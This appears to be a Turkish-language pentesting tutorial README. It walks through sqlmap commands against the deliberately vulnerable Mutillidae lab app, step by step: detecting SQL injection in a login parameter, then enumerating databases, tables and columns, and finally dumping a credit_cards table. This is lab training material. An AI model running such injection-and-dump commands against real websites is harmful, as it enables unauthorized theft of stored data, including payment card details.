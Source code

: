 # SQL Map 
### ```URL``` adresini verdiğimiz sitede SQL açığı var mı test eder
#### 1.``` sqlmap -u "http://123.123.123.123/mutillidae/index.php?&username=admin&password=123123&user-info-php-submit-button=View+Account+Details"```
#### 2. Bize eğer ```Get parameter 'username' is vulnerable. Do you want to keep testing the others (if any) Y/N``` derse "açık bulundu teste devam edeyim mi?" diye soruyordur
![](https://github.com/ahmetnuysal/Cyber-Security/blob/bf3a19821795b78ca5fed16e82ad334859214ecc/Websitesi%20Pentesting/Pict/WhatsApp%20Image%202022-08-31%20at%2017.40.21.jpeg)
#### 3. ```sqlmap -u "http://123.123.123.123/mutillidae/index.php?page=user-info.php&username=admin&password=1231231&user-info-php-submit-button=View+Account+Details" --current-db``` Güncel database'leri verir
#### 4. ```sqlmap -u "http://192.168.126.132/mutillidae/index.php?page=user-info.php&username=admin&password=1231231&user-info-php-submit-button=View+Account+Details" --tables -D owasp10``` owasp10 içindeki tüm table'lları gösterir
#### 5. ```sqlmap -u "http://192.168.126.132/mutillidae/index.php?page=user-info.php&username=admin&password=1231231&user-info-php-submit-button=View+Account+Details" --columns -T <tableismi> -D <databaseismi>``` Sütunları görmemizi sağlar
#### 6. ```sqlmap -u "http://192.168.126.132/mutillidae/index.php?page=user-info.php&username=admin&password=1231231&user-info-php-submit-button=View+Account+Details" -T credit_cards -D owasp10 --dump``` Table içindeki verileri gösterir




